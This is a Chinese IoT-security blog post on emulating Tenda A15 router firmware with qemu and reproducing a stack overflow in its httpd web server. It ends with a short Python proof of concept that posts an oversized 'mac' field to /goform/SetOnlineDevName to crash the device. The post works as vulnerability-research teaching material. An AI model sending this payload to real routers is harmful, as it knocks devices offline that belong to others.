







refer:[IOT漏洞挖掘初体验-Tenda A15 | Zach0ry’s blog](https://zach0ry-zzh.github.io/2026/04/04/Tenda A15 固件模拟与漏洞复现/)
[原创][分享][注意][分享]Tenda A15 固件模拟与漏洞复现-二进制漏洞-看雪安全社区｜专业技术交流与安全研究论坛
前言
最近在pwn大手子的带领下逐渐学习物联网安全，想着先复现一个典型漏洞看看。
首先需要准备以下工作：
1.安装binwalk
binwalk是一把利刃。kali内置了binwalk，如果直接sudo apt install binwalk可能会使用的时候报错，原因可能是因为python包环境冲突，解决办法是删除冲突的环境，这里以我的为例：
1
2
3
4
| python3 -m pip uninstall -y binwalk
rm -rf ~/.local/lib/python3.12/site-packages/binwalk*
sudo apt install --reinstall python3-binwalk binwalk -y
hash -r
|
2.安装sasquatch
直接克隆仓库即可
1
2
| git clone https://github.com/devttys0/sasquatch.git
cd sasquatch
|
我当时报了这个错误：

这里参考了https://xu17.top/2025/02/15/IOT%20%E5%9B%BA%E4%BB%B6%E5%88%86%E6%9E%90%E8%A7%A3%E5%8E%8B%E7%8E%AF%E5%A2%83%E6%90%AD%E5%BB%BA/的解决办法
如下：
（虽然还会继续报错但是不影响日常使用了）
1
2
3
4
|
sudo wget https://github.com/devttys0/sasquatch/pull/47.patch
sudo patch -p1 < 47.patch
sudo ./build.sh
|
输入which sasquatch正常回显就说明成功了
3.qemu
这里需要安装qemu-mipsel-static 和qemu-system-mipsel这俩工具，用于在不同的系统架构上去模拟，用来执行目标程序
安装方法可以问AI，这里不多说了
固件解包与环境模拟
输入命令：binwalk -Me IOT.bin解包固件，出来一个文件系统
固件下载地址：https://static.tenda.com.cn/tdeweb/download/A15/US_A15V1.0RTL_V15.13.07.13_multi_TD01.zip
这里咱们需要关注bin目录下的httpd文件
1
2
3
| > file httpd
httpd: ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld-uClibc.so.0, with debug_info, not stripped
|
通过file命令，足以看出这是32位可执行文件，我们还可用checksec辅助判断一下：
1
2
3
4
5
6
7
8
9
| > pwn checksec httpd
[*] '/home/kali/Downloads/_US_A15V1.0RTL_V15.13.07.13_multi_TD01.bin.extracted/squashfs-root/bin/httpd'
Arch: mips-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX unknown - GNU_STACK missing
PIE: No PIE (0x400000)
Stack: Executable
RWX: Has RWX segments
|
说实话明显看出可能存在栈漏洞，具体的还需要进入程序分析

看到这是main函数，接下来用qemu模拟
需要注意，我们由于提取出了完整的文件系统，这里一般要把根目录设置成文件系统的路径，在这里至少先模拟出程序的运行环境
将 x86 架构下的 MIPS 翻译器（QEMU）复制到当前假根目录中：
1
| cp $(which qemu-mipsel-static) .
|
然后运行：> sudo chroot . ./qemu-mipsel-static ./bin/httpd
不出意外的话会报错：

这里是因为我们qemu直接模拟执行，缺乏“开机”这个步骤，这个步骤会生成一些必须文件等关键操作，可以参考本文引用的两篇文章的描述：
在真实的 IoT 设备中，根文件系统（也就是提取出来的 squashfs）通常是只读的（Read-Only）。
但是，httpd 服务在运行时，必须生成一些动态数据，比如：
- 记录当前进程号的 PID 文件
- 用户的 Session 缓存、临时上传的配置文件。
- 运行时的网络状态（
/var/run）。
真实路由器的做法：在系统刚通电开机时，操作系统的启动脚本（init）会在内存中划分出一块区域（tmpfs，也就是内存虚拟盘），然后把 /var、/tmp 等需要频繁读写的目录挂载到这个内存盘上。接着，它会把出厂默认的配置文件（存放在以 _ro 即 Read-Only 结尾的目录里）复制到真正的运行目录中。
我们的模拟环境：提取出的 squashfs-root 只是固件在关机状态下的静态文件。它缺少了开机时动态创建的那些目录，而且真正的配置文件还在 etc_ro 里睡大觉，真正的网页文件还在 webroot_ro 里。
在目录etc_ro中有init.d目录，其中的文件就是启动项,但是不能直接去启动它，因为它包含 mount -t ramfs 等命令会因为权限问题报错并且/sbin、/etc 等绝对路径与实际不符合
解决办法是补环境
查看etc_ro内的文件：这就是开机初始化脚本rCs
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
| #! /bin/sh
PATH=/sbin:/bin:/usr/sbin:/usr/bin/
export PATH
mount -t ramfs none /var/
mkdir -p /var/etc
mkdir -p /var/media
mkdir -p /var/webroot
mkdir -p /var/etc/iproute
mkdir -p /var/run
mkdir -p /etc/udhcpc
mkdir -p /var/debug
cp -rf /etc_ro/* /etc/
cp -rf /webroot_ro/* /webroot/
umount -f /tmp
mount -t tmpfs none /tmp -o size=3M
mount -a
mount -t ramfs /dev
mkdir /dev/pts
mount -t devpts devpts /dev/pts
mdev -s
mkdir /var/run
echo '/sbin/mdev' > /proc/sys/kernel/hotplug
#echo 'sd[a-z][0-9] 0:0 0660 @/usr/sbin/autoUsb.sh $MDEV' >> /etc/mdev.conf
#echo 'sd[a-z] 0:0 0660 $/usr/sbin/DelUsb.sh $MDEV' >> /etc/mdev.conf
#echo 'lp[0-9] 0:0 0660 */usr/sbin/IppPrint.sh'>> /etc/mdev.conf
#wds rule start
#echo 'wds*.* 0:0 0660 */etc/wds.sh $ACTION $INTERFACE' > /etc/mdev.conf
#wsd rule end
echo 'sd[a-z][0-9] 0:0 0660 @/usr/sbin/usb_up.sh $MDEV $DEVPATH' >> /etc/mdev.conf
echo '-sd[a-z] 0:0 0660 $/usr/sbin/usb_down.sh $MDEV $DEVPATH'>> /etc/mdev.conf
echo 'sd[a-z] 0:0 0660 @/usr/sbin/usb_up.sh $MDEV $DEVPATH'>> /etc/mdev.conf
echo '.* 0:0 0660 */usr/sbin/IppPrint.sh $ACTION $INTERFACE'>> /etc/mdev.conf
mkdir -p /var/ppp
# insmod /lib/modules/fastnat.ko
insmod /lib/modules/bm.ko
#insmod /lib/modules/ai.ko
# insmod /lib/modules/mac_filter.ko
#insmod /lib/modules/ip_mac_bind.ko
# insmod /lib/modules/privilege_ip.ko
# insmod /lib/modules/qos.ko
# insmod /lib/modules/url_filter.ko
# insmod /lib/modules/loadbalance.ko
#insmod /lib/modules/app_filter.ko
#insmod /lib/modules/port_filter.ko
#insmod /lib/modules/arp_fence.ko
#insmod /lib/modules/ddos_ip_fence.ko
echo "enable 0 interval 0" >/proc/watchdog_cmd
chmod +x /etc/mdev.conf
/*
BUG[41877]:DUT播放组播视频，概率性出现有线PC无法进入管理界面
解决SWITCH WAN口学到IP地址和BR0相同的arp表的问题
*/
echo 2 > /proc/sys/net/ipv4/conf/eth1/arp_ignore
|
看大佬的博客，解决办法如下：
1。先按照启动脚本的思路，补充一些文件/文件夹
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| mkdir -p ./var/etc
mkdir -p ./var/media
mkdir -p ./var/webroot
mkdir -p ./var/etc/iproute
mkdir -p ./var/run
mkdir -p ./var/etc/udhcpc
mkdir -p ./var/debug
mkdir -p ./dev/pts
mkdir -p ./var/ppp
mkdir -p ./tmp
cp -rf ./etc_ro/* ./var/etc/
cp -rf ./webroot_ro/* ./var/webroot
|
2。挂载（Mount）：给程序装上“传感器，proc、sys、dev ，路由器程序（httpd）运行的时候，会去 /proc 里看系统状态。如果不挂载，它看到的文件夹就是空的，它会觉得自己跑在一个“死掉”的系统里，然后直接报错退出。
1
2
3
| sudo mount -t proc /proc ./proc
sudo mount -t sysfs /sys ./sys
sudo mount --bind /dev ./dev
|
3.软链接
1
| sudo ln -snf ./var/webroot ./webroot
|
4.网卡接口配置
为了“伪造”出路由器程序赖以生存的硬件环境，并打通与该程序之间的通信链路，让固件正常运行，我们必须在 Linux 内核中伪造出它所需的网络拓扑

可以看到是br0和80端口
运行下列命令：
1
2
3
| sudo brctl addbr br0
sudo ip addr add 192.168.0.1/24 dev br0
sudo ip link set br0 up
|
继续运行：sudo chroot . ./qemu-mipsel-static ./bin/httpd
可以在相应的IP访问到网站，说明绑定成功：

看Tenda_AC15漏洞复现 | Thir0th’s Blog师傅博客，可以patch下httpd以便捷搭建复现环境，但是我没有尝试
漏洞分析
首先进入initwebs函数分析（main函数调用，通过函数名推测是一个初始化函数）

这里面还有一张这就是腾达（Tenda）路由器网页后台的「功能菜单总表」
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
| void formDefineTendDa()
{
websAspDefine("aspGetCharset", aspGetCharset);
websFormDefine("getOnlineList", formGetOnlineList);
websAspDefine("asp_error_message", asp_error_message);
websAspDefine("asp_error_redirect_url", asp_error_redirect_url);
websFormDefine("SetOnlineDevName", formSetDeviceName);
websFormDefine("setBlackRule", formAddMacfilterRule);
websFormDefine("delBlackRule", formDelMacfilterRule);
websFormDefine("getBlackRuleList", formGetMacfilterRuleList);
websFormDefine("getDeviceInfo", formGetDeviceInfo);
websFormDefine("telnet", TendaTelnet);
websFormDefine("SysToolReboot", fromSysToolReboot);
websFormDefine("SysToolRestoreSet", fromSysToolRestoreSet);
websFormDefine("SysToolChangePwd", fromSysToolChangePwd);
websFormDefine("SysToolSetUpgrade", fromSysToolSetUpgrade);
websFormDefine("WifiBasicGet", formWifiBasicGet);
websFormDefine("WifiBasicSet", formWifiBasicSet);
websFormDefine("WifiApScan", formWifiApScan);
websFormDefine("ate", TendaAte);
websFormDefine("setApModeCfg", fromsetApModeCfg);
websFormDefine("getApModeCfg", fromgetApModeCfg);
websFormDefine("WifiExtraSet", fromSetWirelessRepeat);
websFormDefine("getQuicksetBridge", fromGetWirelessRepeat);
websFormDefine("getStatusBeforeBridge", fromGetWirelessRepeat);
websFormDefine("exit", formExit);
websFormDefine("hasLoginPwd", formhasLoginPwd);
websFormDefine("loginOut", fromLoginOut);
websFormDefine("sysToolsInfo", fromSysToolsInfo);
}
|
大佬说关注set之类的函数，和数据读写有关，可能存在栈溢出这种漏洞
分析处理SetOnlineDevName 请求的formSetDeviceName 函数，其中的set_device_name发现漏洞
在常规 Pwn 题里，接收输入的是 read(0, buf, size) 或者 gets(buf)，直接从标准输入流读。
而在 Tenda 路由器的 formSetDeviceName 函数里，它绝对不会调用 scanf 或 read 等待你输入。websFormHandler 会把 HTTP POST 请求全部接收完毕，并解析成了内存里的一个字典结构
这是大佬给的POC：
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
| import requests
from pwn import cyclic
ip = '192.168.0.1'
url = f'http://{ip}/goform/SetOnlineDevName'
payload = {
"mac": cyclic(4000),
"devName": "devname1"
}
print("[*] 正在发送 4000 字节的终极探针...")
try:
requests.post(url=url , data=payload, timeout=2)
except Exception:
print("[+] 目标已彻底断开，绝对当场暴毙！")
|
如果失败，需要patch一下程序的某个字节
看大佬博客，是在下图抛出错误的

需要nop掉灰色方框的语句